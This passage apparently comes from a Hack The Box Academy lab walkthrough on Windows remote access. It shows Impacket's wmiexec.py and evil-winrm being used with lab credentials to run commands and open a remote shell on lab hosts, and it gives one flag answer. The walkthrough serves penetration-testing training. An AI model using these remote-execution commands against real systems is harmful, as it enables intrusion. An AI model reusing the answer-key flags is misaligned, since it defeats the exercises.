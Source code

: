 Right after they have established the tunnel to the internal network, students will proceed to utilize `wmiexec.py` from Impacket to get the contents of the `flag.txt` located in the `C:\Users\helen\Documents` directory:

Code: shell

```shell
wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 "more C:\Users\helen\Documents\flag.txt"
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-14slkmk7v4]─[~]
└──╼ [★]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 "more C:\Users\helen\Documents\flag.txt"

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
```

Answer: `Helen_WMI_Flag`

# Windows Remote Management (WinRM)

## Question 1

### "Use WinRM to connect to SRV01 and submit flag located at C:\\Users\\frewdy\\Desktop\\flag.txt"

After spawning the target, students will proceed to connect using `evil-winrm` and the credentials `Frewdy:Kiosko093`:

Code: shell

```shell
evil-winrm -i STMIP -u Frewdy -p Kiosko093
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ evil-winrm -i 10.129.229.244 -u Frewdy -p Kiosko093
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Frewdy\Documents>
```

Subsequently, students will proceed to grab the flag from `C:\Users\frewdy\Desktop`:
